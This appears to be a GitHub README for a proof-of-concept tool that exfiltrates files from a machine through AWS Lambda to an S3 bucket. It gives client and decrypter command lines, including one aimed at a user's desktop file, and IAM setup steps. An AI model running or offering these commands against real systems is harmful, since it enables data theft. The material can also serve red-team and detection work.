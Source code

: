# AWS Lambda Exfil Tool [PoC]

Here we have a small PoC on how the program works  

![StandaloneClientGif](media/standaloneClient.gif)

## About
The program follows the following diagram. Explanation on how each part functions is present on standaloneClient pdf file.  

![StandaloneClient diagram](media/Standalone_client_1.png?raw=true "Standalone Client Diagram")


## Usage
#### Client
`py clientName.py -s <Partition size in kb> -i <File to exfiltrate>`  
Example:  
`py clientName.py -s 100 -i "C:\Users\SomeUser\Desktop\test.txt"`
#### Decrypter
###### Note: If not sure about hostname and filename, check S3 Bucket after exfiltration
`py decrypter.py -n "Hostname" -i "Filename"`  
Example after exfiltrating test.txt:  
`py decrypter.py -n "ID4A0E" -i "test"`

Follow the prompts for decrypter setup, this will set AWS keys as well as region and bucket name.  
Decrypter setup is based on `decrypterConfig.json` (Which will be created after the first time decrypter is ran).  
If AWS account / bucket needs to be changed, please modify the above mentioned json file.

## Setup

###### Note: Use python 3.x  

#### IAM Console
Go to AWS IAM console and create a role (Remember the ARN name) with the following permissions:  

- AWSLambdaFullAccess
- AmazonS3FullAccess
- CloudWatchFullAccess

###### Run `pip install -r requirements.txt`

###### Run `py setup.py` and follow the prompts

#### Partitions
Please take in account the size of the file to be exfiltrated when defining the partition size.

#### Supported Files
The tool supports txt, csv and xlsx files but every file that is text based (For example a .py file) will be exfiltrated succesfully.
